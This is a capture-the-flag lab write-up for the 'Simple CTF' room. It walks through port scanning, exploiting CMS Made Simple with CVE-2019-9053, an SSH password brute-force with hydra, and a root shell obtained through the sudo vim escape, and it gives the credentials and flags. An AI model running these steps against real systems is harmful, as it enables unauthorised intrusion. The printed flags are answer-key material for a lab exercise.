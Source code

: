 # Simple CTF

**Room:** Simple CTF  
**Author:** Luis (Anub1t)  
**Date:** 2025-09-12

---

## Question 1

**Question:** How many services are running under port 1000?

We can solve this using an Nmap scan:

```bash
nmap -p1-1000 [target_IP]
```

**Result / Answer:** There are **2 services** running below TCP port 1000.

---

## Question 2

**Question:** What is running on the higher port?

We can solve this by running a full port scan:

```bash
nmap -T4 -p- [target_IP]
```

This lets us see which service runs on the highest port on the vulnerable machine.

**Result / Answer:** The service running on the highest port is **SSH**.

---

## Question 3

**Question:** What's the CVE you're using against the application?

To answer this we need to identify the web application and its version. First, searching the target IP on a search engine returned no useful information. Instead, we used a directory discovery tool such as `dirsearch` to find potential directories:

```bash
dirsearch -u [target_IP]
```

We found a directory called `/simple`. Visiting `http://[target_IP]/simple/` we discovered, in the page footer, the web application and its version: **CMS Made Simple version 2.2.8**.

Searching for vulnerabilities for that application and version (for example on the NIST database) revealed the CVE: **CVE-2019-9053**.

---

## Question 4

**Question:** To what kind of vulnerability is the application vulnerable?

On the same page where the CVE was found, the vulnerability type is listed: **SQL Injection**.

**Answer / Flag:** `sqli`

---

## Question 5

**Question:** What's the password?

We must exploit the vulnerability first. I used a public exploit from GitHub:

```
https://github.com/BjarneVerschorre/CVE-2019-9053
```

Before running the exploit, install the dependencies as indicated by the author:

```bash
pip3 install httpx
```

Then run the exploit:

```bash
python3 exploit.py -u "http://[target_IP]/simple/"
```

The exploit returns a username `mitch` and a password in hash form (not directly readable). Using the discovered username, we performed a controlled password attack against SSH with `hydra`:

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 -t 4 -f -V ssh://[target_IP]
```

**Result / Answer:** The password found was **`secret`**.

---

## Question 6

**Question:** Where can you login with the details obtained?

**Answer:** You can log in to the **SSH** service using the obtained credentials.

---

## Question 7

**Question:** What's the user flag?

Login to SSH with the obtained credentials:

```bash
ssh -p 2222 mitch@[target_IP]
# password: secret
```

After a successful login, list files with `ls`. There is a `user.txt` file. Viewing it:

```bash
cat user.txt
```

**Result / User flag:** `G00d j0b, keep up!`

---

## Question 8

**Question:** Is there any other user in the home directory? What's its name?

From the SSH session:

```bash
cd /home
ls
```

**Result / Answer:** Besides the known user, there is another user named **`sunbath`**.

---

## Question 9

**Question:** What can you leverage to spawn a privileged shell?

Check for elevated permissions with:

```bash
sudo -l -l
```

The output shows that the user `mitch` can run `/usr/bin/vim` as `root` without a password. This is the vector we can leverage to spawn a privileged shell.

**Answer:** The allowed `sudo` command `/usr/bin/vim` (NOPASSWD) can be leveraged to obtain a root shell.

---

## Question 10

**Question:** What's the root flag?

From the SSH session, obtain a root shell using `vim`:

```bash
sudo /usr/bin/vim -c ':!bash' -c ':q'
```

This launches a root shell. Navigate to the root directory (if you start in `/home`, go up one level and then into `/root`):

```bash
cd ..
cd root
ls
cat root.txt
```

**Result / Root flag:** `W3ll d0n3. You made it!`

---

## Notes

This writeup follows the classic CTF flow: enumerate services, find web application version, locate a public CVE and exploit it to obtain credentials, access SSH on a non-standard port (2222), and perform post-exploitation checks (`sudo -l`) to find a privilege escalation vector (vim as NOPASSWD), which was used to obtain the root flag.

---

## Disclaimer
> ⚠️ This writeup is for educational purposes only and must be used in authorized environments (labs / CTFs). Do not apply these techniques against systems without explicit permission.
## Disclaimer
> ⚠️ This writeup is for **educational purposes only** and for use in authorized environments (labs / CTFs). Do not apply these techniques against systems without explicit permission from the owner.

---
